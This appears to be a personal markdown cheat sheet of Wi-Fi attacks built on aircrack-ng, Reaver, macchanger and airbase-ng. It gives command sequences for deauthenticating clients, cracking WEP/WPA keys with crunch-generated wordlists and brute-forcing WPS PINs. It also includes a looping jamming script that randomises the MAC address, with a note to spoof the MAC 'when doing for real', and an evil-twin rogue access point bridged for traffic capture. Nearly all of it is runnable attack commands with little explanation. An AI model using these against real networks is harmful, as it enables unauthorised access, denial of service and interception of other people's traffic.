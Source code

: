 # Wireless Vulnerablities
## overview of tools 
### aircrack-ng  
from this https://ubuntuforums.org/showthread.php?t=528276  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor|manage`  
4. `ifconfig wlan0 up`  
##### check airmon-ng is good to go
1. `airmon-ng check wlan0`  
2. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
1. `airodump-ng wlan0`  
2. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write dump.pca wlan0`  
##### seperate terminal  
3. `sudo aireplay-ng -1 0 -e <target_essid> -a 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>` -1... '0' deauthenticates all clients. -e... ESSID of target access point. -a... MAC address of target access point. -h... MAC address of your choice. its either no mac filtering or mac filtering  
Mac filtering is turned off  
```
18:22:32 Sending Authentication Request
18:22:32 Authentication successful
18:22:32 Sending Association Request
18:22:32 Association successful :-)
```
##### No MAC filtering  
--- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h MY:MA:CA:DD:RE:SS <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... MAC address of your choice.  
##### MAC filtering 
-- `sudo aireplay-ng -0 5 -a 00:09:5B:D7:43:A8 -c 00:00:00:00:00:00 <interface>`  -0... Number of deauthentication attempts. -a... MAC address of target access point.  -c... Client MAC address.  
-- `sudo aireplay-ng -3 -b 00:09:5B:D7:43:A8 -h 00:00:00:00:00:00 <interface>`  -3... Standard ARP-request replay. -b... MAC address of target access point. -h... Client MAC address.  
##### Decryption with "aircrack-ng" & "aircrack-ptw"  
1. `sudo aircrack-ng <file_name>.cap`  
2. `./aircrack-ptw <file_name>.cap`  
`crunch 10 10 -t %%%%%%%123 | aircrack-ng -w - SCAN-test.cap -e <essid>`   
[Aircrack-ng](http://aircrack-ng.org/doku.php?id=aircrack-ng)  
https://www.aircrack-ng.org/doku.php?id=cracking_wpa  

```
Aircrack-NG:
64-bit key: ~250,000 packets
128-bit key: ~1,500,000 packets

Aircrack-PTW:
64-bit key: ~20,000 packets [estimate]
128-bit key: ~85,000 packets
```

#### from video  
##### change wifi card from promiscuous to monitor mode.  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`
##### check airmon-ng is good to go
5. `airmon-ng check wlan0`  
6. kill processes that are running.  `kill NetworkManager`  
##### run airodump-ng
7. `airodump-ng wlan0`  
8. `airodump-ng --channel 1 --bssid 12:34:45:45:67:80 --write SCAN_test wlan0`  
*NEW TERMINAL*  this authenticates all clients on network - 0 means just goes on forever.  let it run for a while  
9. `aireplay-ng -0 0 -a 12:34:45:45:56:88 wlan0`  
10. ctr ^ C to stop  
11. one first terminal check to see if wpa handshake is captured.  if so stop capture.  
*FRESH TERMINAL*  
12. `crunch 10 10 -t @@@@@@@@@@ | aircrack-ng -w - SCAN_test-01.cap -e <essid>`  
##### try using a list cd crunch-3.6 find charset.lst 
13. `crunch 10 10 -t @@@@@@@@@@ -f charset.lst mixalpha-numeric-space`  
14. `aircrack-ng -w /root/nmap.lst SCAN_test-01.cap`  

# REAVER v1.5.2 WiFi Protected Setup Attack Tool
`reaver --help`  
1. `ifconfig`  
2. `ifconfig wlan0 down`  
3. `iwconfig wlan0 mode monitor`  
4. `ifconfig wlan0 up`  
##### check airmon-ng is good to go
5. `airmon-ng check wlan0`  
6. kill processes that are running.  `kill NetworkManager` 
##### use wash to check if wps is locked
7. `wash -i wlan0mon`  or `wash -i wlan0mon --ignore-fcs`  
8. check PWR is above -60  
9. `airodump-ng wlan0mon`  
10. `reaver -b mac-address-of-router -i wlan0mon -c 1 -vv` 
##### you may need to self associate using aireplay-ng 
11. `aireplay-ng -1 0 wlan0mon -a <bssid>`  
12 . `reaver -i wlan0mon -b <bssid> -c 1 -A -vv`  
13. `reaver -i wlanmon -b <bssid> -c 1 -r 2:60`  

# Signal Jamming and DOS 
1. put network card into monitor mode
2. `airmon-ng check wlan0`
*note* when doing for real change mac address of wireless interface  
`ifconfig wlan0 down`
`macchanger -A wlan0`  
`ifconfig wlan0 up`
3. `airodump-ng wlan0` 
4. `aireplay-ng -0 0 -a <bssid> wlan0`  or and (-c <clients's mac>) as to not knock everyone off network.  
if you have to configure channel  
5. `iwconfig wlan0 channel <num>`  

#### write jam script
```
#!/bin/bash 
while true
do 
    aireplay-ng -0 5 -a <bssid> wlan0
    ifconfig wlan0 down
    macchanger -r wlan0 | grep "New MAC"
    iwconfig wlan0 mode monitor 
    ifconfig wlan0 up
    iwcofig wlan0 | grep Mode
    sleep 3
    echo "Waiting!!!!!"
done
```

# Evil twin  
[more info](http://www.kalitutorials.net/2014/07/evil-twin-tutorial.html)
`ifconfig wlan0 down`  
`iwconfig wlan0 mode monitor`  
`airmon-ng check wlan0`  
kill processes that are running nm first    
`airodump-ng wlan0`  
take mac addess you want to clone  
`airbase-ng -a <bssid> --essid thename -c 6 wlan0`  
**do not shut down airbase**
deauthenticate the network  
`aireplay-ng -0 0 -a <bssid> wlan0`  

##### if not already installed install
`apt-get install bridge-utils -y`  
`brctl addbr evil`  
`brctl addif evil at0`  
`ifconfig at0 0.0.0.0 up`  
`ifconfig evil up`  
`dhclient evil &`  

##### listen to traffic  
* install wireshark  





